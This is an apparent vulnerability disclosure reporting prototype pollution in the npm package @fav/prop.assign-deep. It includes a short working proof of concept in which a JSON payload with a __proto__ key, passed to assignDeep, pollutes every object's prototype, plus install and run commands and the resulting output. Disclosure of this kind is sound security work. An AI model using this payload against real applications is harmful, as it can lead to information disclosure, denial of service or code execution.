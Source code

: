 # Description

`@fav/prop.assign-deep` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```javascript
// poc.js
var assignDeep = require('@fav/prop.assign-deep');

console.log("Before", {}.status)
assignDeep({}, JSON.parse('{ "__proto__" : { "status" : "polluted!" } }'));
console.log("After:", status);
```
2. Execute the following commands in the terminal:
```bash
npm i @fav/prop.assign-deep # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: polluted!
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.
